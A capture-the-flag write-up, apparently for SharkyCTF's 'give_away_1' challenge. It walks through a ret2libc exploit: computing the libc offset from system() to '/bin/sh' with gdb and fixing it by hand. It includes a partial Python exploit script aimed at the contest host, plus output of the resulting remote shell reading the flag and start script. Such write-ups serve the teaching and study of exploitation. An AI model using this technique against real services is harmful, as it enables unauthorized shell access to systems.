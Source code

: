 ```
0xf7ff1000 0xf7ffc000     0xb000    0x1d000 /usr/lib/i386-linux-gnu/ld-2.30.so

```

in my kali's gdb, 0xf7e13630 is system. So we subtract.
```
(gdb) p 0xf7f57406 - 0xf7e13630
$3 = 1326550
```
so system + 1326550 *should* be /bin/sh

However, the remote system is different so it took some massaging when writing my give1.py

At first when I used the offset, it said "roadcast: not found" which indicates its calling system("roadcast"). This sounds like part of the word "broadcast", after I loaded the libc into a hex editor and searched for the word.


```
system: f7e16200
binsh: 0xf7f59fd2
ready?
cmd $ //////////bin/ls
sh: 1: roadcast: not found

```


Then I had to manually subtract the offset I found in the hex editor between "/bin/sh" and "roadcast":

```py
...
s=socket.socket()
# sharkyctf.xyz
s.connect((sys.argv[1],20334))
sysaddr = s.recv(1024).split(': ')[1].lstrip('0x').strip()
sysaddr = sysaddr.decode('hex')[::-1]

libc_diff = 1326550 + 5 - 12033 - 11 # ->/bin/sh
binsh = hex(int(sysaddr[::-1].encode('hex'), 16) + libc_diff)

```

Final output:

```
./give1.py sharkyctf.xyz
system: f7d4c200
binsh: 0xf7e8d0cf
ready?
cmd $ id
/bin/sh: 1: d: not found

cmd $ id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)

cmd $ cat flag.txt
cashkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}

cmd $ cat start.sh
#!/bin/bash

while :
do
    su -c "exec socat TCP-LISTEN:20334,reuseaddr,fork EXEC:/pwn/give_away_1,stderr" - pwnuser;
done

cmd $ cat /etc/os-release
```
